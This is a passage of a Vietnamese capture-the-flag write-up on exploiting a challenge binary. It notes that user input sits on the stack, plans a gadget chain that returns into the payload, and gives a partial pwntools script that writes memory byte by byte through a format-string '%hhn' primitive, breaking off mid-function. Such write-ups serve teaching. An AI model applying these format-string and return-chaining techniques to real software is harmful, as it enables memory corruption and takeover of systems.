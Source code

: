 - check memcpy 

ở đây nó cũng không hề thõa bất kì điều kiện nào , nhưng hãy để ý 1 điều là trên stack có chuỗi ta nhập vào? vậy điều này có thể làm được gì 

![here](/assets/images/memcpyu.png)

- ta sẽ tìm kiếm 1 gadget có thể pop 3 thằng đó ra và tiếp theo nó sẽ return về payload mà ta nhập vào

exp: 


```python
from pwn import *

elf = context.binary = ELF("./chall_patched",checksec=False)
p = elf.process()
#p = remote("localhost",10002)
libc = elf.libc

context.arch = elf.arch

# gdb.attach(p,'''
#     init-gef
#     b *strdup+52
#     c
# ''')

def vuln(payload):
    p.sendlineafter(b">> ",b"2")
    p.sendlineafter(b">> ",payload)

def write_payload_8(value,addr):
    for i in range(8):
        if(value == 0):
            break
        b = value % 0x100
        value = value // 0x100
        payload = f"%{b}c%8$hhn".ljust(16,'.')
        payload = payload.encode() + p64(addr + i)
        vuln(payload)

def another_one(payload):
```